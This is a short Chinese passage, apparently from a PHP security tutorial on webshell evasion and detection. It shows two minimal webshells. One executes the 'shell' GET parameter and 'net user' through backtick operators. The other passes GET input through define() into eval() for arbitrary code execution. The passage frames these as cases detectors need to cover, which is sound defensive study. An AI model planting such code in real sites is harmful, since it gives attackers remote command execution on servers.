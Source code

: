 
**可直接执行CMD命令**
```php
<?php
$cmd =base64_decode('dmVy='); // ver
echo `$cmd`. `$_GET[shell]`;  //shell_exec,执行系统命令
//或
$var = `net user`;
echo "$var";
?>

```
![](img/23.png)

**变量覆盖**
```php
<?php

    define($_GET[a], $_GET[b]);eval(A);

    ?>
```

先外部传入a=A 定义A变量，再通过传入b=phpinfo();给A变量赋值，即可完成利用，因此这就要求安全人员尽可能尽可能覆盖所有的变量传播方式，同时这也是一个积累与完善的过程。

![](img/29.png)
